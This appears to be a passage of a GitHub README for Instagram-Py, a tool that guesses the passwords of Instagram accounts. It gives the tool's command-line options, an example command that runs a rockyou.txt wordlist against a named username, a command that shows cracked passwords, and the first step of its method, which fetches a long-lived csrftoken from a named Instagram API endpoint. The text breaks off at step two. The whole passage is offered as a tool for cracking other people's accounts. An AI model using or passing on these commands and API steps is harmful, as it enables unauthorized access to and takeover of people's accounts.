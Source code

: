 optional arguments:
  -h, --help            show this help message and exit
  --username USERNAME, -u USERNAME
                        username for Instagram account
  --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                        password list file to try with the given username.
  --script SCRIPT, -s SCRIPT
                        Instagram-Py Attack Script.
  --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                        Username to inspect in the instagram-py dump.
  --create-configuration, -cc
                        Create a Configuration file for Instagram-Py with
                        ease.
  --default-configuration, -dc
                        noconfirm for Instagram-Py Configuration Creator!
  --countinue, -c       Countinue the previous attack if found.
  --verbose, -v         Activate Verbose mode. ( Verbose level )

example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

Report bug, suggestions and new features at https://github.com/deathsec/instagram-py
Instagram-Py Scripting
Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks. This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

Refer the Wiki to get full information about Instagram-Py Scripting , https://github.com/deathsec/instagram-py/wiki Also look into the examples tree present in this repo , it contains simple example scripts.

You Can Always View the Cracked Passwords Using this command!

$ instagram-py -i instatestgod__
$ # Displays record if it is cracked in the past!
Algorithm
Instagram-Py uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who wish to recreate this program in any other language.

You can see this live when you run the tool in max verbosity

$ instagram-py -vvv -u instatestgod__ -pl password_list.lst
You can also use Instagram-Py as a module , so that you can also use it in your script

What we do
Step 1: Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid= , where the guid get parameter is a random 32 character string. The random 32 character string can be generator using python's simple uuid library , to be specific v4 of UUID. So finally we just have to request the url https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb and get the cookie named csrftoken , if we observe the response header we could see that our cookie only expires next year the same day. So by this we only have to make this request once and can use it for a year! How vulnerable is that?...

https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png
Step 2: Build a post request with Instagram's signature.
